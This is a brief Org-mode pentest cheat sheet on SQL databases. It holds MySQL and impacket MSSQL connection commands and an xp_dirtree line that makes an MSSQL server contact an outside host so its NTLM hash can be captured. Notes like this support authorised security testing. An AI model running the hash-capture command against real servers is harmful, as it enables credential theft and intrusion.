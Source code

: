 :PROPERTIES:
:ID:       f9ed79fe-bdc1-4f21-868e-753f2949e53d
:END:
#+title: Pentest - SQL
#+filetags: :sql:pentest:
#+hugo_base_dir:/home/kdb/Documents/kdbed/kdbed.github.io.bak


* MySQL
=mysql -u fooUser -p -h 44.55.66.77=

* MSSQL
impacket-mssqlclient -port 1433 domain/user:password@host

capture NTLM hashes:
=SQL> exec master.sys.xp_dirtree "\\10.10.16.2\test"=

